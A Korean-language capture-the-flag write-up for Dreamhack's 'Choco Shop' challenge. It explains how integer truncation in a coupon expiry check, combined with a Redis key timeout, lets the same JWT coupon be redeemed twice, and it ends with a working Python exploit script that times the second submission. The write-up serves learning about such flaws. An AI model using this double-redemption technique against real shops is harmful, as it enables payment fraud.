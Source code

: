 
# Choco Shop

Dreamhack의 Choco Shop 문제이다.

![](../assets/img/Pasted%20image%2020240330203616.png)

계정당 하나씩 사용할 수 있는 1000원짜리 쿠폰을 이용해 2000원의 Flag를 구매해야하는데...

![](../assets/img/Pasted%20image%2020240330203622.png)

쿠폰을 발급 받으면 아래처럼 JWT 형식의 문자열이 나온다.

![](../assets/img/Pasted%20image%2020240330203628.png)

쿠폰을 발급받는 코드를 확인해보면

```python
@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')

    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})
```

`user['coupon_claimed'] = True` 로 설정되어 계정당 한번만 쿠폰을 발급 받을 수 있다.

이번엔 쿠폰을 등록하는 코드를 확인해보면

```python
@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')

    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')

    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```

다른 계정의 쿠폰은 등록할 수 없게 되어있다.

해당 문제는 쿠폰의 expiration의 시간차를 이용해 같은 쿠폰을 2번 등록할 수 있는 취약점을 이용해야한다.

처음 쿠폰을 발급 받을때 expiration은 int(time()) + COUPON_EXPIRATION_DELTA(45초)로 설정이된다.

쿠폰의 등록은 Redis에서 setnx를 통해 coupon의 uuid를 Key 값으로 등록하여 다음 등록시에 해당 coupon의 uuid가 key값으로 존재하는지 검사한다.

```python
if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
```

등록 후 아래 코드를 통해 Coupon의 uuid Key값을 만료시킨다.
```python
r.expire(used_coupon, timedelta(seconds=coupon['expriation'] - int(time()))
```

만료되는 시간을 보면 coupon의 expiration 시간으로 설정된 쿠폰 발급 당시의 시간 + 45초가 지나면 Redis에 등록된 Coupon uuid의 Key값은 삭제가된다.

쿠폰 등록 과정 중 쿠폰이 만료되었는지 검사하는 코드로 검사를 하지만 int 값으로 변환하기 때문에 소수점의 초는 짤리게된다.

```python
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')
```

따라서 45.0초 ~ 46초 사이에 등록을 하게 되면 쿠폰의 만료 코드는 통과하고 Redis에서는 Coupon uuid Key값은 삭제가 되어있어 동일한 쿠폰으로 2번 등록할수있다.

해당 기능을하는 코드를 작성하여 플래그를 구입하여 문제를 풀면된다.

```python
ex.py

import time
import requests

base_url = "http://host1.dreamhack.games:20630"
COUPON_EXPIRATION_DELTA = 45

#get session
r = requests.get(base_url+"/session")
res = r.json()
session = res['session']

#get coupon
headers = {'Authorization':session}
r = requests.get(base_url+"/coupon/claim",headers=headers)
res = r.json()
coupon = res['coupon']
print(coupon)

#submit coupon
headers = {'Authorization':session,'coupon':coupon}
r = requests.get(base_url+"/coupon/submit",headers=headers)
print(r.json())

time.sleep(COUPON_EXPIRATION_DELTA)

headers = {'Authorization':session,'coupon':coupon}
r = requests.get(base_url+"/coupon/submit",headers=headers)
print(r.json())

headers = {'Authorization':session}
r = requests.get(base_url+"/flag/claim",headers=headers)
res = r.json()
print(res)
```
